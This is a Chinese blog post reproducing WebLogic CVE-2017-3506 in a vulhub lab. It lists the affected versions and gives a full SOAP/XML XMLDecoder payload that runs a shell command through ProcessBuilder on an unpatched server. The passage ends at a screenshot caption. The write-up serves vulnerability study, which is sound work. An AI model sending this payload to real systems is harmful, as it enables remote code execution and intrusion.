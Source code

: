 Title:weblogic漏洞CVE-2017-3506复现：Web Services模块的漏洞
Date: 2018-01-09 16:20
Category: 漏洞实践
Tags: 漏洞,Java,反序列化,weblogic
Slug: 
Authors: bit4
Summary: 

### 0x0、漏洞概述

Supported versions that are affected are 10.3.6.0, 12.1.3.0, 12.2.1.0, 12.2.1.1 and 12.2.1.2

### 0x1、环境部署

直接以P神的的vulhub中的环境就可以。其中的版本恰好是10.3.6(11g)，是存在漏洞的。安装其中的指引直接启动镜像就可以了。

https://github.com/vulhub/vulhub/tree/master/weblogic/weak_password



### 0x2、PoC的一些关键点

**请求构造**

在浏览器中访问http://xx.xx.132.37:7001/wls-wsat/CoordinatorPortType，通过burp抓包放到repeater中。

更换请求方式为post，修改Content-Type为text/xml，并贴入以下内容作为POST的data部分。这个PoC等同于命令：/bin/bash -c "touch /tmp/123"。

```xml
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
  <soapenv:Header>
    <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
        <java version="1.8.0_131" class="java.beans.XMLDecoder">
          <void class="java.lang.ProcessBuilder">
            <array class="java.lang.String" length="3">
              <void index="0">
                <string>/bin/bash</string>
              </void>
              <void index="1">
                <string>-c</string>
              </void>
              <void index="2">
                <string>touch /tmp/123</string>
              </void>
            </array>
          <void method="start"/></void>
        </java>
      </work:WorkContext>
    </soapenv:Header>
  <soapenv:Body/>
</soapenv:Envelope>
```

截图如下：
